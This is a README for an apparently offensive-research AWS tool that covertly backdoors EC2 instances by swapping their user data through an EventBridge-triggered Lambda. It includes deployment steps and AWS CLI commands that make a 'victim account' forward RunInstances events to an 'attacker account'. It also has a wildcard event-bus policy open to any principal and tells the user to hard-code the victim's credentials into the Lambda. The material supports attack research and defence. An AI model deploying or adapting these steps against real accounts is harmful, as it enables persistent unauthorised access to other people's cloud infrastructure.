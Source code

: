 # UserDataSwap

User data swap is an example of an automated lambda function that runs that swaps out user data on RunInstance events. The original user data script is restored after ours is run.

This exists as an example of how an attacker could semi-covertly backdoor EC2 instances on creation. The API calls will stand out, but from the user's perspective the instance is simply taking longer to start up. This is a well known attack, only change to what I've seen elsewhere is adding Event Bridge and Lambda.

Currently there is a five minute delay between when the new instance comes up and when it is backdoored, this is to work around issues with bootstrapping at the moment. Hope to find another way to do this in the future, but we'll see.

## Wish List
* Play nicely with bootstrapping (User Data or the Terraform SSH provider) without adding a delay.
* Target individual instances or tags
* Configurable options for logging, commands run at boot, etc.

## Cross-Account Access

There is a fair amount of permissions required to deploy this, which is ok if you just want to test it out. To be useful it may make more sense to deploy in a seperate account then the one you're targeting, this way the initial set up only requires `events:PutRule` and `events:PutTargets` permissions. I'll likely add support for this in the future, for now you can try the following to do this manually.

* In the UsereDataSwap account:
  * In the UserDataSwap lambda account create a new event bus named `run-instance-trigger` and give it the following resource policy.
  WARNING: This will allow any AWS account to run any action against this event bus.
  TODO: Figure out the exact permissions needed for this.
  ```
  {
    "Version": "2012-10-17",
    "Statement": [{
      "Sid": "allow_account_to_put_events",
      "Effect": "Allow",
      "Principal": "*",
      "Action": "*",
      "Resource": "<this event bus arn>"
    }]
  }
  ```

  * Set up a rule to trigger the UserDataSwap function with the following event config.

  ```
  {
    "source": [
      "aws.ec2"
    ],
    "detail": {
      "eventSource": [
        "ec2.amazonaws.com"
      ],
      "eventName": [
        "RunInstances"
      ]
    }
  }
  ```
* In the victim account:
  * Create the run-instances event trigger:
  ```
  aws --profile victim-account events put-rule --name run-instance-trigger --state ENABLED --event-bus-name default --event-pattern '{
    "source": ["aws.ec2"],
    "detail": {      
      "eventSource": ["ec2.amazonaws.com"],
      "eventName": ["RunInstances"]
    }
  }'
  ```
  * Add a target to forward to the event-bus in the UserDataSwap account:
  ```
  aws events put-targets --rule run-instance-trigger --event-bus-name default --targets "Id"="1","Arn"="arn:aws:events:<region>:<attacker account #>:event-bus/run-instance-trigger"
  ```
* You should see the UserDataSwap triggered when a instance is created in the victim account now.
  * Update the lambda to hard code the credentials needed to make EC2 related calls in the vicitims account and deploy.

## More Info

For more info you can see my post on [Backdooring user data](https://blog.ryanjarv.sh/2020/11/27/backdooring-user-data.html)

## Related Attacks

For another similar attack with different pros/cons take a look at [EC2FakeIMDS](https://github.com/RyanJarv/EC2FakeImds). The talk and slides going over these two can be found on [my blog](https://blog.ryanjarv.sh/2020/12/04/deja-vu-in-the-cloud.html).

## Takeaway

What I was hoping to demonstrate is what I described as Cloud Malware in my talk doesn't need to be complex.

## Requirements

* AWS CLI already configured with Administrator permission
* [Docker installed](https://www.docker.com/community-edition)
* [Golang](https://golang.org)
* SAM CLI - [Install the SAM CLI](https://docs.aws.amazon.com/serverless-application-model/latest/developerguide/serverless-sam-cli-install.html)

## Setup process

### Installing dependencies & building the target 

```shell
make build
```

## Deployment

```bash
make deploy
```

### Testing

TODO
